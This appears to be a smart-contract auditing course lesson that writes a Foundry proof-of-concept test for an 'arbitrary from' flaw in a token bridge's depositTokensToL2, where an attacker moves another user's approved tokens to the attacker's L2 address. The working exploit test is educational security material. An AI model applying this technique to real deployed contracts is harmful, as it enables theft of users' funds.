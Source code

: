 ```yaml
---
title: Exploit - Arbitrary From - PoC
---
```


_Follow along with the video lesson:_

---

### Exploit - Arbitrary From - PoC

Now that we've identified an exploit in the use of an `arbitrary from` in `depositTokensToL2`, let's write a Proof of Code to demonstrate the issue. We can leverage the existing test suite to write our tests.

Navigate to `L1TokenBridge.t.sol`.

This test suite has a decent setup we can leverage, so our user (Alice) is configured with funds already and a vault etc has been prepped for us. Our test should just need to start with Alice, innocently approving the tokens she wants to move to L2.

```js
function testCanMoveApprovedTokensOfOtherUsers() public {
    // poor Alice approving
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);
    vm.stopPrank();
}
```

Now's time for Bob. We're going to set the amountToSteal to Alice's token.balanceOf and create a new attacker user to represent Bob in the transaction. We then prank the attacker.

```js
uint256 amountToSteal = token.balanceOf(user);
address attacker = makeAddr("attacker");
vm.prank(attacker);
```

From here, the order in which we do things in quite important. We know when `depositTokensToL2` is called that an event is emitted and at the root of this vulnerability is that this event is going to be populated with malicious data - Bob's L2 address! In order to detect an event in Foundry's test framework we can use `vm.expectEmit`.

By setting `vm.expectEmit`, _then_ emitting what we expect the function to emit, **_then_** calling that function, the test suite will compare our expectations to what is actually emitted by the function.

```js
vm.expectEmit(address(tokenBridge));
emit Deposit(user, attacker, amountToSteal);
tokenBridge.depositTokensToL2(user, attacker, amountToSteal);
```

And finally, we can close our test off with some assertions. We can show that Bob's transaction left Alice with 0 tokens, and that those tokens are in the vault, waiting to be minting on L2 at the emitted L2 address (Bob's!)

```js
assertEq(token.balanceOf(user), 0);
assertEq(token.balanceOf(address(vault)), amountToSteal);
vm.stopPrank();
```

<details>
<summary>testCanMoveApprovedTokensOfOtherUsers</summary>

```js
function testCanMoveApprovedTokensOfOtherUsers() public {
    // poor Alice approving
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);
    vm.stopPrank();

    uint256 amountToSteal = token.balanceOf(user);
    address attacker = makeAddr("attacker");
    vm.prank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, attacker, amountToSteal);
    tokenBridge.depositTokensToL2(user, attacker, amountToSteal);

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), amountToSteal);
    vm.stopPrank();
}
```

</details>


Now, we can run this test.

```bash
forge test --mt testCanMoveApprovedTokensOfOtherUsers -vvv
```

![arbitrary-poc1](/security-section-7/20-arbitrary-poc/arbitrary-poc1.png)

### Wrap Up

Boom! A proof of code demonstrating that anyone can call this function on someone else's approved tokens, stealing them on L2.

Our first `High`, we found it pretty quick and `Slither` was a huge help, thanks `Slither`!

Let's keep going, `Slither` had another red detector in that output... See you in the next lesson!
